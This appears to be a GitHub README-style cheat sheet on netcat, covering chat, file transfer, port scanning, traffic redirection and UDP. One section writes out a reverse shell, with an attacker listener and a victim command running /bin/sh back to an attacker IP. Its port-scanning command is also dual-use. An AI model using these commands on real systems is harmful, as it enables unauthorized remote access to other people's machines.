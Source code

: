 # NetCat (nc)
Netcat is a command-line tool that can be used for a variety of tasks, such as:
-creating network connections
-transferring data
-scanning ports and more.
It is often referred to as the "Swiss Army knife" of networking tools because it can be used for so many different purposes.

**Installation**
Netcat is typically pre-installed on many Linux and Unix-based systems. However, it may not be installed on all systems, or you may be using a different operating system such as Windows.

To check if netcat is already installed on your system, open a terminal and type:
nc -v

**Basic Usage**
Creating a Simple Chat Application
To create a simple chat application between two computers, you can use the following command on one computer:
nc -l 1234
And on the other computer:
nc [ip address of first computer] 1234

**File Transfer**
To send a file from one computer to another:
nc -w 3 [ip address] 1234 < [file]
On the receiving end:
nc -l 1234 >

**Port Scanning**
To scan for open ports on a specific IP address or hostname, you can use the following command:
nc -v -n -z [ip address or hostname] [start port]-[end port]

**Redirecting Traffic**
To redirect incoming traffic on one port to another port or IP address, you can use the following command:
nc -l [listening port] -c 'nc [destination ip address] [destination port]'

**Server and Client Mode**
To start netcat in server mode and listen on a specific port, you can use the following command:
nc -l [port number]
To connect to a netcat server running on a specific IP address and port, you can use the following command:
nc [ip address] [port number]

**Reverse Shell**
To create a reverse shell, you can use the following command on the attacker machine:
nc -lvp [port number]
On the victim machine:
nc [attacker ip address] [port number] -e /bin/sh

**Send and receive UDP packets**
To send a UDP packet to a specific IP address and port:
echo "message" | nc -u [ip address] [port number]
To listen for incoming UDP packets on a specific port:
nc -ul [port number]

